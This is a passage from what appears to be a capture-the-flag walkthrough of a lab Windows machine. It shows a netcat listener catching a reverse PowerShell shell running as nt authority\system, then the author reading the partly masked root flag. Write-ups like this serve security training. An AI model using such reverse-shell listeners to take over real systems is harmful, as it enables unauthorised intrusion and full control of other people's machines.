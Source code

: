 The command is executed, let us check back on our listener.

```powershell
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.193.
Ncat: Connection from 10.10.10.193:50367.
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\svc-print\Documents> whoami
nt authority\system
```

We get a shell as `nt authority\system` and can now read root.txt.

``` powershell
PS C:\Users\Administrator\Desktop> type root.txt
4a510***************************
```